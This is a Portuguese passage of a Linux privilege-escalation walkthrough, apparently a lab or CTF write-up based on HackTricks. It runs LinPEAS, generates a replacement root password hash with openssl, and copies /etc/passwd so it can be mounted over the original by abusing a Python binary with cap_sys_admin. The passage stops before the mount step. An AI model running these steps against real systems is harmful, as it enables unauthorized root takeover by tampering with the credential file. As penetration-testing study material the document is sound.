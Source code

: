 
###  **3. Dê permissão de execução:**

```bash
chmod +x linpeas.sh
```

---

###  **4. Execute o LinPEAS:**

```bash
./linpeas.sh
```

---

##  Etapas Exatas — Igual ao PDF e Book HackTricks

###  Objetivo:

Editar **o arquivo real `/etc/passwd`** diretamente e colocar o novo hash na linha do `root`.

---

### Desafio:

Você está com permissão baixa e **não consegue editar o `/etc/passwd` diretamente** com `nano`, `vim` ou `echo`, **mas o Python 2.7 tem `cap_sys_admin`**, o que te permite montar outro arquivo sobre ele — isso é o que o método explora.

---

## Agora passo a passo com base no HackTricks

### 1. Gere a senha com OpenSSL (você já fez):

```bash
openssl passwd -1 -salt abc vert16xx
```

Resultado:

```
$1$abc$2H0JEHV8dgQ1XqM3KjN3Y0
```

---

### 2. Copie o conteúdo real do `/etc/passwd` para um arquivo temporário

```bash
cp /etc/passwd /tmp/passwd
```

---